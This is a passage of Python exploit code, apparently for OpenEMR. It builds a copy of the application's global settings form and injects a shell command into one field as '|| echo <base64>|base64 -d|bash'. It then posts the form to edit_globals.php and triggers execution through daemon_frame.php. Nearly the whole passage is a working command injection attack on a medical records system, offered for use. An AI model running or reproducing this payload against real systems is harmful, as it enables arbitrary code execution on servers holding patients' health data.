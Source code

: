 ```
    payload = "form_save=Save&srch_desc=&form_0=main_info.php&form_1=..%2F..%2Finterface%2Fmain%2Fmessages%2Fmessages.php%3Fform_active%3D1&form_2=1&form_3=tabs_style_full.css&form_4=style_light.css&form_5=__default__&form_6=__default__&form_7=1&form_8=0&form_9=175&form_10=OpenEMR&form_12=1&form_13=0&form_14=0&form_16=1&form_21=1&form_22=1&form_23=1&form_24=1&form_25=http%253A%252F%252Fopen-emr.org%252F&form_26=&form_27=20&form_28=10&form_30=0&form_31=5&form_32=0&form_37=English+%28Standard%29&form_42=1&form_43=1&form_44=1&form_45=1&form_46=1&form_47=1&form_48=1&form_49=1&form_50=1&form_51=0&form_52=0&form_53=&form_54=2&form_55=.&form_56=%2C&form_57=%2524&form_58=0&form_59=3&form_60=6%2C0&form_61=0&form_62=0&form_63=_blank&form_69=1&form_70=1&form_77=1&form_79=&form_80=&form_81=&form_84=1&form_85=1&form_87=1&form_89=1&form_90=1&form_91=1&form_92=Y1&form_93=1&form_94=2&form_95=0&form_97=14&form_98=11&form_99=24&form_100=20&form_102=1&form_103=0&form_104=0&form_105=ICD10&form_106=1&form_107=1&form_112=3&form_115=1&form_116=&form_119=1.00&form_121=0&form_123=&form_125=30&form_126=&form_127=60&form_128=&form_129=90&form_130=&form_131=120&form_132=&form_133=150&form_134=&form_135=1&form_138=1&form_139=1&form_141=1&form_142=0&form_143=localhost&form_144=&form_145=&form_146=5984&form_147=&form_150=Patient%2BID%2Bcard&form_151=Patient%2BPhotograph&form_152=Lab%2BReport&form_153=Lab%2BReport&form_155=100&form_157=8&form_158=17&form_159=15&form_160=day&form_161=1&form_162=2&form_163=1&form_164=10&form_165=10&form_166=15&form_167=20&form_168=1&form_169=%23FFFFFF&form_170=%23FFFFFF&form_171=%23FFFFFF&form_172=%23FFFFFF&form_173=1&form_174=0&form_176=1&form_177=1&form_178=1&form_181=1&form_182=1&form_183=1&form_184=1&form_185=D0&form_186=D0&form_187=0&form_188=0&form_190=33&form_191=0&form_194=7200&form_198=1&form_199=0&form_200=0&form_202=&form_203=&form_204=365&form_205=&form_206=1&form_208=&form_210=&form_211=&form_212=&form_213=&form_214=&form_215=&form_216=SMTP&form_217=localhost&form_218=25&form_219=&form_220=&form_221=&form_222=50&form_223=50&form_224=&form_225=&form_226=&form_227=50&form_228=&form_229=&form_230=&form_231=1&form_232=1&form_233=1&form_234=1&form_235=1&form_236=1&form_237=1&form_238=1&form_239=Model%2BRegistry&form_240=125789123&form_241=1&form_242=1&form_243=1&form_244=&form_245=&form_246=1&form_247=1&form_248=1&form_249=5&form_250=1&form_252=1&form_253=1&form_254=1&form_255=1&form_256=1&form_257=1&form_258=1&form_262=&form_263=6514&form_264=&form_265=&form_267=1&form_268=0&form_269=%252Fusr%252Fbin&form_270=%252Fusr%252Fbin&form_271=%252Ftmp&form_272=%252Ftmp&form_273=26&form_274=state&form_275=1&form_276=26&form_277=country&form_278=lpr%2B-P%2BHPLaserjet6P%2B-o%2Bcpi%253D10%2B-o%2Blpi%253D6%2B-o%2Bpage-left%253D72%2B-o%2Bpage-top%253D72&form_279=&form_280=&form_282=2018-07-23&form_283=1&form_285=%252Fvar%252Fspool%252Fhylafax&form_286=enscript%2B-M%2BLetter%2B-B%2B-e%255E%2B--margins%253D36%253A36%253A36%253A36&form_288=%252Fmnt%252Fscan_docs&form_289=1&form_290=https%253A%252F%252Fyour_web_site.com%252Fopenemr%252Fportal&form_291=1&form_292=1&form_296=https%253A%252F%252Fyour_web_site.com%252Fopenemr%252Fpatients&form_297=1&form_299=&form_300=&form_301=&form_302=https%253A%252F%252Fssh.mydocsportal.com%252Fprovider.php&form_303=https%253A%252F%252Fssh.mydocsportal.com&form_305=https%253A%252F%252Fyour_cms_site.com%252F&form_306=&form_307=&form_308=0&form_309=https%253A%252F%252Fhapi.fhir.org%252FbaseDstu3%252F&form_312=https%253A%252F%252Fsecure.newcropaccounts.com%252FInterfaceV7%252FRxEntry.aspx&form_313=https%253A%252F%252Fsecure.newcropaccounts.com%252Fv7%252FWebServices%252FUpdate1.asmx%253FWSDL%253Bhttps%253A%252F%252Fsecure.newcropaccounts.com%252Fv7%252FWebServices%252FPatient.asmx%253FWSDL&form_314=21600&form_315=21600&form_316=&form_317=&form_318=&form_319=1&form_324=&form_325=0&form_327=137&form_328=7C84773D5063B20BC9E41636A091C6F17E9C1E34&form_329=C36275&form_330=0&form_332=https%253A%252F%252Fphimail.example.com%253A32541&form_333=&form_334=&form_335=admin&form_336=5&form_339=1&form_346=LETTER&form_347=30&form_348=30&form_349=72&form_350=30&form_351=P&form_352=en&form_353=LETTER&form_354=5&form_355=5&form_356=5&form_357=8&form_358=D&form_359=1&form_360=9&form_361=1&form_362=104.775&form_363=241.3&form_364=14&form_365=65&form_366=220"
    p = {}
    for c in payload.replace("&", "\n").splitlines():
        a = c.split("=")
        p.update({a[0]: a[1]})
   
    # Linux only, but can be easily modified for Windows.
    _cmd = "|| echo " + base64.b64encode(args.cmd) + "|base64 -d|bash"
    p.update({"form_284": _cmd})
    
    print(load + "Injecting payload")
    s.post(args.host + "/interface/super/edit_globals.php", data=p)
    sp = s.get(args.host + "/interface/main/daemon_frame.php") # M4tt D4em0n w0z h3r3 ;PpPpp
    if sp.status_code == 200:
        print(load + "Payload executed")
```

